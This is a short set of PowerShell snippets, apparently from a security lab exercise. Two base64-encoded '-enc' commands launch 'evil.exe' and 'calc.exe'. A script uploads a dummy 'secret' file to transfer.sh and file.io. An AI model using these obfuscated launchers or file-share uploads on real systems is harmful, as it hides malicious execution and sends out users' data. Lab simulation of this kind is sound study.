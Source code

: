 powershell -enc UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACcAQwA6AFwAVQBzAGUAcgBzAFwAUAB1AGIAbABpAGMAXABlAHYAaQBsAC4AZQB4AGUAJwA=
powershell -enc UwB0AGEAcgB0AC0AUABSAE8AQwBFAFMAUwAgACcAYwBhAGwAYwAuAGUAeABlACcA$$

$path = "$env:TEMP\important.txt"

Set-Content -Path $path -Value "Top secret info from Zakariae's lab"

Invoke-RestMethod -Uri "https://transfer.sh/important.txt" -Method Put -InFile $path -OutFile "$env:TEMP\url.txt"

Start-Process notepad.exe "$env:TEMP\url.txt"




$response = Invoke-RestMethod -Uri "https://file.io" -Method Post -InFile $path -ContentType "multipart/form-data"

$response.link | Out-File "$env:TEMP\url.txt"

Start-Process notepad.exe "$env:TEMP\url.txt"
